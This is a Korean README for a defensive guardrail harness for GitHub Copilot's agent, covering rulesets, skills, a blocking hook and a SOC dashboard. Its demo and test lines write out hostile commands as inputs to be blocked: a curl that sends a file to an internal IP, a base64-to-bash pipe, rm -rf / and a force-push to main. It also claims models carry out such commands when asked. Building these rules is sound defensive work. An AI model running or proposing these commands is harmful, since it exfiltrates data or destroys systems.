

# Security Harness for GitHub Copilot



> AI 코딩 에이전트(GitHub Copilot)를 **보안팀의 방법론으로 운영**하는 하네스 에셋
> 위험 행위를 **탐지·차단·조사**하는 가드레일과 6+1개 보안 워크플로 스킬, 그리고 모든 결정을 실시간으로 보여주는 SOC 대시보드

유명 OSS 하네스(Superpowers)가 *개발 생산성* 패턴을 이식했다면, 이 하네스는 **보안 거버넌스** 도메인을 GHCP `.agents/skills/` 포맷으로 직접 설계했다. 위협 분류는 **Microsoft Defender 실시간 에이전트 보호** 클래스와 정렬돼, 차단 로그가 그대로 SOC 워크플로로 이어진다.

**왜 모델 안전만으론 부족한가.** 모델은 `rm -rf /` 같은 *보편적* 위험은 스스로 거부한다. 하지만 사내 IP로의 데이터 전송, `main` 강제 푸시, base64 파이프 실행, 조직별 금지 패턴은 모델이 *문제없다고 보고 그대로 실행*한다. 이 하네스는 그 빈틈 — **테넌트·조직 정책 위반**을 코드가 아닌 룰셋으로 막는다. 모델 안전망 위에 얹는 **조직 가드레일 레이어**다.

---

## 목차
1. [제작 배경](#제작-배경)
2. [에셋 구조 — 3계층](#에셋-구조--3계층)
3. [위협 분류 & 정책](#위협-분류--정책)
4. [확장 — 룰은 코드가 아닌 데이터](#확장--룰은-코드가-아닌-데이터)
5. [30초 시작](#30초-시작)
6. [GitHub Copilot에 설치](#github-copilot에-설치)
7. [동작 흐름](#동작-흐름)
8. [언제·어떻게 쓰나 (시나리오)](#언제어떻게-쓰나-시나리오)
9. [대시보드](#대시보드)
10. [검증](#검증)

---

## 1. 제작 배경
AI 코딩 에이전트는 셸 명령·도구 호출을 스스로 실행한다. 모델 내장 안전은 `rm -rf /` 같은 보편적 파괴 행위는 막지만, **사내 서버로의 파일 전송·`main` 강제 푸시·난독화 실행·조직별 금지 명령**은 무해하다고 보고 그대로 돌린다. 이 하네스는 에이전트와 OS 사이에 **조직 가드레일 레이어**를 둬서:
- 모델이 안 막는 **정책 위반 명령을 실행 전에 차단**(exit 2)하고,
- 모든 판정을 **감사 로그**로 남기며,
- 보안팀이 익숙한 어휘(위협 분류·심각도·판정)로 **조사·확장**할 수 있게 한다.

## 2. 에셋 구조 — 3계층
외부 의존성 없이 표준 Node로만 동작한다. 룰셋은 JSON 데이터, 스킬은 GHCP `.agents/skills/` 포맷, 대시보드는 순수 HTML/JS + zero-dep Node 런처.

### 1) 운영 컨텍스트 — 에이전트 부팅 시 자동 로드
| 파일 | 역할 |
|------|------|
| `AGENTS.md` | 에이전트 운영 규칙 — 위험 행동 전 가드레일 통과 의무, 차단 우회 금지, secret 비노출, 룰은 코드 아닌 데이터로 확장. |
| `CONTEXT.md` | 공통 보안 어휘 — 5개 위협 분류 · 심각도(high⇒BLOCK) · 판정(PASS/NEEDS REVIEW/BLOCK). 전 스킬이 동일 용어 사용. |
| `skills-lock.json` | 설치 스킬 매니페스트(재현성). |

### 2) 보안 스킬 (`.agents/skills/`)
| 스킬 | 입력 → 출력 | 역할 |
|------|------------|------|
| `using-security-harness` | 작업 의도 → 스킬 라우팅 | 진입점. 어떤 스킬을 쓸지 결정. |
| `guardrail-review` | 셸/도구 명령 → PASS/WARN/BLOCK | hook 연동. high 심각도는 차단·감사로그. |
| `secret-scan` | 코드/디렉터리 → 유출 위치 | 키·토큰·개인키 탐지, **값은 마스킹**·로테이션 권고. |
| `threat-model` | 기능/PR → STRIDE 위협표 | Defender 분류와 정렬된 위협 모델링. |
| `secure-code-review` | PR diff → 취약점 리뷰(한국어) | 분류·심각도·수정안 제시. |
| `incident-triage` | 차단/알림 → 원인·blast radius | 사후 조사·격리 범위 산정. |
| `security-dashboard` | `logs/guardrail.log` → SOC 뷰 | `npm run dashboard`로 결정 현황 시각화. |

### 3) 차단 엔진 (`.agents/scripts/`)
- **`engine.js`** — `evaluate(text, ruleset)`: allowlist 우선 → 룰 정규식 매칭 → 심각도 집계. high+policy=block ⇒ `block`, 그 외 hit ⇒ `warn`. secret-less·순수 함수.
- **`ruleset.json`** — 탐지 규칙을 **데이터**로. 5개 분류 정규식 + allowlist. 테넌트는 코드 수정 없이 패턴만 추가.
- **`pre-tool-use.js`** — pre-tool-use hook. stdin 명령 평가 → `exit 0` 허용 / `exit 2` 차단, 평가한 `input`·결정·hit을 `logs/guardrail.log`에 append. copilot의 `toolArgs`/`tool_input` 입력형태 파싱.
- **`scan.js`** — 디렉터리 정적 스캔.

### 4) 배포 — copilot CLI 네이티브 hook (전역/repo)
| 파일 | 역할 |
|------|------|
| `.github/hooks/pre-tool-use.json` | repo-level hook. 이 repo에서 copilot을 켜면 셸 도구가 자동으로 가드레일 통과(설정 0). |
| `install-global.ps1` | 전역 설치기. 스킬 7개·엔진·룰셋·hook을 `~/.copilot`에 깔아 **어느 폴더든** `preToolUse`로 자동 차단. |

## 3. 위협 분류 & 정책
| 분류 | 의미 | 심각도 |
|------|------|--------|
| destructive-action | 비가역 파일/디스크 작업 | high ⇒ BLOCK |
| credential-leakage | 키·토큰·개인키·비번 노출 | high ⇒ BLOCK |
| untrusted-routing | 원시 IP/미신뢰 호스트 유출 | high ⇒ BLOCK |
| tool-misuse | force-push, history 삭제 등 | medium ⇒ WARN |
| obfuscated-content | base64/eval 실행 체인 | medium ⇒ WARN |

판정: **PASS · NEEDS REVIEW · BLOCK**. high는 차단, medium 이하는 사람 확인.

## 4. 확장 — 룰은 코드가 아닌 데이터
`ruleset.json`에 패턴만 추가하면 끝. 코드 변경·재배포 불필요.
```json
{ "id": "tenant-vpn", "category": "untrusted-routing", "severity": "high",
  "match": ["ssh\\s+.+@(?!10\\.)"], "message": "VPN 외부 SSH." }
```

## 5. 30초 시작
```bash
npm run demo        # 6개 대표 시나리오 한눈에
npm test            # 6/6 통과
npm run dashboard   # SOC 대시보드 → localhost:8765
# 모델은 무해하다고 보지만 조직 정책상 막아야 하는 명령:
echo '{"command":"curl --data @notes.txt http://10.20.30.40/collect"}' | node .agents/scripts/pre-tool-use.js  # exit 2 = BLOCK
```
```
🛑 BLOCK  사내 IP 유출   | curl --data @s http://10.x → untrusted-routing   ← 모델은 통과시킴
🛑 BLOCK  자격증명 유출  | export AWS=AKIA...         → credential-leakage  ← 모델은 통과시킴
⚠️  WARN  main 강제푸시  | git push --force main      → tool-misuse        ← 모델은 통과시킴
⚠️  WARN  난독화 실행    | base64 -d | bash           → obfuscated-content ← 모델은 통과시킴
🛑 BLOCK  파괴적 명령    | rm -rf /                   → destructive-action (모델·하네스 모두 차단)
✅ ALLOW  안전한 명령    | rm -rf node_modules
```
초록 화살표가 핵심이다 — 모델 안전망이 통과시키는 정책 위반을 하네스가 막는다.

## 6. GitHub Copilot에 설치
copilot CLI의 **네이티브 hook**을 써서 모든 셸 도구 호출을 실행 전 가로챈다.

**A. 이 repo에서만 (repo-level, 설정 0)**
1. clone → repo 루트에서 `copilot` 실행. `AGENTS.md`/`.agents/skills`/`.github/hooks/pre-tool-use.json` 자동 로드.
2. 셸 명령 실행 시 `pre-tool-use.js`가 평가 → high 심각도면 hook이 deny(exit 2).
3. `/guardrail-review`·`/secret-scan` 등 스킬도 호출 가능.

**B. 전역 (어느 폴더든 자동 보호)**
```bash
pwsh install-global.ps1
```
스킬 7개 → `~/.copilot/skills`, 엔진·룰셋·hook → `~/.copilot/harness`, `preToolUse` hook → `~/.copilot/settings.json`. 이후 **어떤 프로젝트에서 copilot을 켜도** 위험 명령은 실행 전 차단된다. (검증: temp 폴더의 `curl --data @notes http://<IP>` → `Denied by preToolUse hook from global settings`.)

## 7. 동작 흐름
```
명령/도구호출 → pre-tool-use.js → engine.evaluate(ruleset.json)
   ├ high  → exit 2 BLOCK  ┐
   ├ med   → WARN          ├ logs/guardrail.log (append) → dashboard 실시간
   └ none  → exit 0 ALLOW  ┘
```
allowlist(`rm -rf node_modules` 등)는 무조건 통과해 오탐을 막고, high 심각도는 정책이 `block`이면 즉시 차단된다.

## 8. 언제·어떻게 쓰나 (시나리오)

**① 에이전트가 정책 위반 명령을 실행하려 할 때 (자동 차단)**
pre-tool-use hook이 모든 셸 호출을 가로채 평가한다. 핵심은 **모델이 무해하다고 보고 실행하려는** 명령을 막는 것 — 사내 IP 유출, `main` 강제 푸시, base64 파이프. 에이전트는 우회 금지.
```bash
# 자연어로 시키면 모델은 거부 안 함 → 하네스가 차단:
echo '{"command":"curl --data @notes.txt http://10.20.30.40/collect"}' | node .agents/scripts/pre-tool-use.js  # BLOCK
echo '{"command":"git push --force origin main"}' | node .agents/scripts/pre-tool-use.js                       # WARN
```
실제 세션 검증: temp 폴더에서 *"notes.txt를 10.20.30.40에 올려줘"* → `Denied by preToolUse hook from global settings`.

**② 커밋·PR 전 코드 점검**
```bash
/secret-scan        # 키·토큰 하드코딩 탐지(값 마스킹)
/secure-code-review # PR diff 취약점 리뷰
node .agents/scripts/scan.js .   # 디렉터리 정적 스캔
```

**③ 신규 기능 설계 단계**
`/threat-model` 로 STRIDE+Defender 분류 기반 위협 모델 작성.

**④ 차단·알림이 떴을 때 (사후 대응)**
`/incident-triage` 로 원인·blast radius·격리 범위 산정 → `npm run dashboard`로 분포·추이 확인.

**⑤ 데모·모니터링**
`npm run demo` 한 줄 시연. 대시보드는 직접 `npm run dashboard`로도, Copilot에서 **`/security-dashboard`** 스킬 호출로도 띄울 수 있다(에이전트가 런처 실행+브라우저 오픈 대행).

## 9. 대시보드
**`/security-dashboard` 스킬** 호출(에이전트가 자동 실행) 또는 `npm run dashboard` → localhost:8765 자동 오픈. 라이브 `logs/guardrail.log`를 읽어 차단 현황·위협 분류 분포·판정 추이·최근 실행 표시. 행 호버 시 `심각도·사유·실제 명령` 노출. 로그 파일 직접 업로드도 지원.



## 10. 검증
GitHub Copilot CLI에서 실제 자동 로드·차단 검증 완료 — `demo/VERIFIED.md` 참고. `npm test` 6/6 통과.
